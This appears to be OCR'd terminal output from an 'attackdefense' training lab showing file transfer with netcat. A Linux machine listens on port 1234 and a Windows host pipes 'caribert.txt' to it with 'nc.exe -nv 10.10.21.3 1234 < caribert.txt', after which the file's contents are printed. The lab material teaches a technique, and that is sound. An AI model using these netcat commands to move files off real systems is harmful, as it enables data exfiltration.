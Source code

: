 ```

C:\Users\Administrator\Desktop>nc.exe -nvlp 1234 > test.txt
listening on [any] 1234 ...
connect to [10.0.19.81] from (UNKNOWN) [10.10.21.3] 60558

C:\Users\Administrator\Desktop>
```

```
C:\Users\Administrator\Desktop>type caribert.txt
caribert is a hillicurl.
C:\Users\Administrator\Desktop>
```

```
root@attackdefense:~/Desktop# nc -nvlp 1234 > caribert.txt
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

```
C:\Users\Administrator\Desktop>nc.exe -nv 10.10.21.3 1234 < caribert.txt
(UNKNOWN) [10.10.21.3] 1234 (?) open

```

```
root@attackdefense:~/Desktop# nc -nvlp 1234 > caribert.txt
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.19.81.
Ncat: Connection from 10.0.19.81:49423.

```

```
root@attackdefense:~/Desktop# cat caribert.txt 
caribert is a hillicurl.
```


